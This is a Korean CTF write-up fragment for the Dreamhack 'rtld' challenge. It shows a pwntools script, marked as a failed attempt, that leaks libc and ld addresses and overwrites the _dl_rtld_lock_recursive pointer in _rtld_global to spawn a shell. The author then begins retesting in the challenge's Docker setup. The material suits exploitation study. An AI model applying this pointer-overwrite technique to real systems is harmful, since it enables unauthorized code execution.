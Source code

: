 
**실패 익스플로잇 코드**

```bash
from pwn import *

#p = process('./rtld')
p = remote('host3.dreamhack.games', 20131)

e = ELF('./rtld')
libc = ELF('./libc-2.23.so')
ld = ELF('./ld-2.23.so')

p.recvuntil(b': ')

stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
ld_base = libc_base + 0x3c5000

print('libc_base..', hex(libc_base))
print('ld_base..', hex(ld_base))

rtld_global = ld_base + ld.symbols['_rtld_global']
dl_load_lock = rtld_global + 2264
dl_rtld_lock_recursive = rtld_global + 3848

print('rtld_global..', hex(rtld_global))
print('dl_load_lock..', hex(dl_load_lock))
print('dl_rtld_lock_recursive..', hex(dl_rtld_lock_recursive))

e.address = 0x555555400000
get_shell = e.symbols['get_shell'] + e.address 

p.sendlineafter(b'addr: ', str(dl_rtld_lock_recursive).encode())
p.sendlineafter(b'value: ', str(get_shell).encode())

p.interactive()

```

.

.

.

분명 방법이 맞는거 같은데 정답이 안나와서 제대로 된 환경 맞춰서 다시 검증 해보겠다.

### 다시 시도  

<img width="1454" height="871" alt="image (39)" src="https://github.com/user-attachments/assets/4b6b120e-4361-41e5-a7f9-b6c05e1993c5" />

제공해준 도커 파일 그대로 빌드하고 열어줬다.  
추가로 gdb 랑 patchelf 두개만 설치해주고 바로 시작했다.   
